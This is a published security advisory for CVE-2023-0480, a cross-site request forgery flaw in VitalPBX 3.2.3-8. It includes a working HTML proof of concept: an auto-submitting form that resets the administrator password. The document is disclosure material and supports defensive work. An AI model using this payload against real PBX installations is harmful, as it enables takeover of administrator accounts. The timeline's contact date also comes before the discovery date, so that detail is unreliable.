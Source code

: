 ```yaml
---
slug: advisories/sharp/
title: VitalPBX 3.2.3-8 - Account Takeover via CSRF
authors: Carlos Bello
writer: cbello
codename: sharp
product: VitalPBX 3.2.3-8
date: 2023-04-10 12:00 COT
cveid: CVE-2023-0480
severity: 6.5
description: VitalPBX 3.2.3-8     -    Account Takeover via CSRF
keywords: Fluid Attacks, Security, Vulnerabilities, Vital PBX, Account Takeover
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                      |
| --------------------- | -------------------------------------------------------------------- |
| **Name**              | VitalPBX 3.2.3-8     -    Account Takeover via CSRF                  |
| **Code name**         | [Sharp](https://en.wikipedia.org/wiki/Ten_Sharp)                     |
| **Product**           | VitalPBX                                                             |
| **Affected versions** | 3.2.3-8                                                              |
| **State**             | Public                                                               |
| **Release Date**      | 2023-04-10                                                           |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                                                             |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)          |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N                                                               |
| **CVSSv3 Base Score** | 6.5                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0480](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0480)                          |

## Description

VitalPBX version 3.2.3-8 allows an unauthenticated external attacker to
obtain the instance administrator's account. This is possible because the
application is vulnerable to CSRF.

## Vulnerability

This vulnerability occurs because the application is vulnerable to CSRF.

### Exploit

To exploit this vulnerability, we only need to send the administrator a
malicious HTML like the following.

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="http://137.184.73.151/index.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="user_id" value="1" />
      <input type="hidden" name="class" value="user_profile" />
      <input type="hidden" name="method" value="put" />
      <input type="hidden" name="mode" value="edit" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="email" value="" />
      <input type="hidden" name="password" value="hacked" />
      <input type="hidden" name="role" value="1" />
      <input type="hidden" name="startapp" value="dashboard" />
      <input type="hidden" name="startapp_custom" value="" />
      <input type="hidden" name="displayname" value="Administrator" />
      <input type="hidden" name="department" value="Administración" />
      <input type="hidden" name="userphoto" value="" />
      <input type="hidden" name="userphoto" value="" />
      <input type="hidden" name="userphoto_configured" value="" />
      <input type="hidden" name="theme" value="vital_pbx" />
      <input type="hidden" name="locale" value="en_US" />
      <input type="hidden" name="timezone" value="system" />
      <input type="hidden" name="multitab" value="1" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Evidence of exploitation

![CSRF-Leads-ATO](https://user-images.githubusercontent.com/51862990/214678035-df11fa40-5836-4458-a40b-55427a46ba3d.gif)

## Our security policy

We have reserved the ID CVE-2023-0480 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: VitalPBX 3.2.3-8

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://vitalpbx.com/>

## Timeline

<time-lapse
  discovered="2023-01-24"
  contacted="2022-01-24"
  replied=""
  confirmed=""
  patched=""
  disclosure="2023-04-10">
</time-lapse>
